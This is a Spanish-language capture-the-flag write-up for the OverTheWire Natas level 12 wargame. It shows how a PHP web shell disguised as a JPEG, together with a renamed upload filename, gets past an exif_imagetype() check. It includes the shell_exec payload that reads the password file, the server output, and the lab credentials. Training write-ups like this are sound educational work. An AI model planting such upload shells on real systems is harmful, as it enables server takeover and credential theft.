 ```yaml
---
title: Natas-12
published: true
---
```


```
Url del reto: http://natas12.natas.labs.overthewire.org/index.php
login:natas12
 pass:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```

En este reto, hay que subir una imagen.jpg. Para ello utiliza la función exif_imagetype() , dicha función comprueba si la cabecera del fichero es una imagen. 
Para saltarnos este obstáculo, podemos modificar el fichero fuente de una imagen, dejar la primera línea y le insertamos código php de la siguiente manera:

```
<?php $output = shell_exec('cat /etc/natas_webpass/natas13'); var_dump($output); ?>
```

Si guardamos la modificación y subimos la imagen, no ejecutará el código php ya que el código fuente lo guardará en un formato jpg.
Para poder subir el fichero en un formato php, modificamos el código fuente html en el campo value así:

```html

<body>
<h1>natas12</h1>
<div id="content">

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="7ww5l8io7z.jpg" /> <!-- modificamos la extension a 7ww5l8io7z.php -->
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

La salida al subir "la imagen":

```html
body>
<h1>natas12</h1>
<div id="content">
The file <a href="upload/7ww5l8io7z.php">upload/7ww5l8io7z.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Como podemos ver, ha subido "la imagen" en formato php, si hacemos clic en el enlace nos ejecutará el código php que hemos insertado en el fichero que hemos subido.

```
string(33) "jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY " 
```

```    
natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

[Volver al archivo](archive)

